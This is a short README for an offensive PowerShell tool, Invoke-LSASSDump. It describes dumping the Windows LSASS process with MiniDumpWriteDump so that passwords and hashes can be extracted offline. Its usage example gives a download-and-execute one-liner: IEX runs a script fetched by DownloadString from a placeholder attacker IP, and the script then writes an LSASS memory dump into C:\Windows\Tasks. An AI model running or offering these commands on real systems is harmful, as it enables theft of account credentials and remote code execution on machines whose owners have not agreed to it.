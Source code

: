 # Invoke-LSASSDump
A small script to dump the LSASS process via PowerShell. This script utilizes **MiniDumpWriteDump** which provides process snapshots for debugging purposes. From a offensive perspective, we can utilize it to dump the LSASS process for offline password and hash extraction.

# Example

Below is an example on how to use Invoke-LSASSDump:

```
PS > IEX ((New-Object System.Net.WebClient).DownloadString('http://<YOUR IP>/Invoke-LSASSDump.ps1'))
PS > Invoke-LSASSDump -DumpLocation "C:\Windows\Tasks\lsass.dmp"
```
